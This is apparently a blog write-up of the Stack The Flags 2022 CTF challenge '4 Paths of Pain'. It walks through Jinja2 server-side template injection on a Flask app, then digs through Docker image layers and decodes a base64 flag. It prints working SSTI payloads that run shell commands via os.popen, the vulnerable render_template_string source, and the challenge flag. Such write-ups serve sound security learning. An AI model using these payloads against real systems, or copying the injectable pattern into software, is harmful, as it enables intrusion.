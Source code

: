 ```yaml
---
title: "Stack The Flags 2022 - 4 Paths of Pain (Misc)"
date: 2022-12-14T09:34:30-04:00
categories:
  - CTF
tags:
  - CTF
  - STF22
  - SSTI
  - Flask
  - Jinja2
comments: true
---
```



Recently, a few colleagues and I participated in **Stack The Flags 2022**, a CTF organised by **Govtech Singapore**. My goal was to learn a thing or two from trying to solve the challenges even if I was not able to successfully complete them.

The CTF was 48 hours and had over 50 challenges spanning from multiple categories such as Forensics, Web, Crypto, OSINT and etc.

This is my writeup for one of the Misc challenge, **4 Paths of Pain**.

![pain.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/pain.jpg)

## 4 Paths of Pain

* Flag: ```STF22{P41n_1s_411_th3_s4m3}```
* Category: Misc
* Difficulty: Easy
* Points: 1000 (Decayed to 400 points by the end of the CTF)

---

### Inspecting the Web App


Main Page:
![index.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/index.png)


Source Code:
![sourcecode.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/sourcecode.png)

```html
<h1>I can't seem to find the defense blueprints man</h1>
<p hidden>Hey Jaga, please help us defend our village, I have left the blueprints of the secret weapon in a file - blueprint.img. It's hidden in layers so even if Pain does get it, he cant view it. </p>
<p hidden> Remember to take a look at the source code of this server! it should help you locate what you need. God speed! - Corona2019</p>
<input hidden type="button" onclick="location.href='?nopain=haha';" value="haha" />
```

The source code revealed to us that the secret weapon is in a file called 'blueprint.img'.
We also observed that there is a hidden button that points to `?nopain=haha`

![parameter.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/parameter.png)

Navigating to the URL, we see that the web application displays the input after `?nopain=`

With this knowledge, we probe further using Postman to try and find more information about the webserver.

In the headers of the response, we see that the server is using Werkzeug 2.2.2.

![werkzeug.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/werkzeug.png)

I started to do some OSINT on Werkzeug to find any known vulnerabilities related to it. During my research, I found this [writeup][htb-doctor] by Zander Work which showcased Server-Side Template Injection (SSTI). According to Zander Work, *SSTI vulnerability is present when unsanitized input is passed to a template before it is rendered, rather than as an input to the render engine as it renders the template.* Hence, I prepared a simple payload for Jinja2 to test for SSTI vulnerability.

\{\{7*7\}\}

If the web application is vulnerable to SSTI, the expected response will be 49. I do not have a screenshot of this but I remember doing this step to confirm that this web server was truly vulnerable to SSTI.

### Exploiting SSTI Vulnerability

With that, I prepared a payload to list the files in the current directory.
![ls.jpg]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/ls.jpg)

We can see that there are 4 files with `blueprint.img` being one of them.
```
-app.py
-blueprint.img
-requirements.txt
-templates
```
Inspecting `requirements.txt` with the following payload:
```
{% raw %}157.245.52.169:32512/?nopain={{request.application.__globals__.__builtins__.__import__("os").popen("cat requirements.txt").read()}}{% endraw %}
```
```
click==8.1.3
Flask==2.2.2
itsdangerous==2.1.2
Jinja2==3.1.2
MarkupSafe==2.1.1
Werkzeug==2.2.2
```
We observed that Jinja2 was installed.

Inspecting `app.py` with the following payload:
```
{% raw %}157.245.52.169:32512/?nopain={{request.application.__globals__.__builtins__.__import__("os").popen("cat app.py").read()}}{% endraw %}
```
```python
from flask import Flask, render_template, make_response, request, render_template_string, send_file from datetime import datetime import base64 app = Flask(__name__)

@ app.route('/')

def page2():
  if request.args.get('nopain'):
  return render_template_string(request.args.get('nopain'))
  else:
    return render_template('defendthevillage.html')

@ app.route('/defendthevillagefrompain', methods=['GET'])

def page3():
  try: return send_file('./blueprint.img')
  except Exception as e:
    return str(e) if __name__ == "__main__": app.run(host="0.0.0.0", port=8086)
```
From the source code, we noticed that there is a path to `/defendthevillagefrompain`. A `GET` request to `157.245.52.169:32512/defendthevillagefrompain` will return `./blueprint.img`. We managed to download `blueprint.img` once we entered the URL in the browser.

### Analysing Blueprint.img

![blueprint.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/blueprint.png){:height="350px" width="350px"}

We found out that we could easily use 7Zip to extract and reveal the content in blueprint.img.

![7zip.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/7zip.png){:height="700px" width="700px"}

Looking at `786fa91039940fa3967fb214d152d1b933d6d83dc1dfbc53c70aaceda221c391.json`, it seems like the creator of the challenged copied secret-message.txt from his environment into one of the container volumes.

```
...
    {
      "created": "2022-11-18T02:49:23.301698469Z",
      "created_by": "COPY secret-message.txt /usr/src/app # buildkit",
      "comment": "buildkit.dockerfile.v0"
    },
    {
      "created": "2022-11-18T02:49:23.47397059Z",
      "created_by": "RUN /bin/sh -c rm -rf /usr/src/app/secret-message.txt # buildkit",
      "comment": "buildkit.dockerfile.v0"
    },
    {
      "created": "2022-11-18T02:49:23.47397059Z",
      "created_by": "CMD [\"/bin/sh\" \"-c\" \"\\\"whoami\\\"\"]",
      "comment": "buildkit.dockerfile.v0",
      "empty_layer": true
    }
...

```
The log file tells us that  `secret-message.txt` is stored in the location `/usr/src/app`. While there were a few folders, this narrows down the folder we will be looking for. By browsing through the different folders, we managed to find `secret-message.txt` in `23202ee5821e24d35c5207fc2b00ccff278c5cc45200aa218e18d09b0823b148/layer.tar` using 7zip.

![secretmessagefound.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/secretmessagefound.png){:height="700px" width="700px"}

### Revealing the secret message... (wait a minute)

We opened `secret-message.txt` expecting to find a flag but it was just a message telling us to find the last hiding place.

![secretmessage.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/secretmessage.png){:height="350px" width="350px"}

At this point we didn't really know what to do with this information but we thought that the location looks a little familiar. We thought it could either be the name of a Github or Dockerhub Repo.

So we searched on DockerHub and at last, we found the last hiding place!

![dockerhub.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/dockerhub.png)

The description of the Docker Image - `U1RGMjJ7cDQxbl8xc180MTFfdGgzX3M0bTN9` looks like an encoded string of text.

To decode this string of text, we used the magic wand feature in CyberChef which was able to identify that the encoded string was in Base64.


![cyberchef.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/cyberchef.png)

Finally, we were able to find the flag for this challenge! We managed to use the secret weapon and defend Konoha against Pain!

![iruka.jpg]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/iruka.jpg)



[htb-doctor]: https://zanderwork.com/blog/htb-doctor/
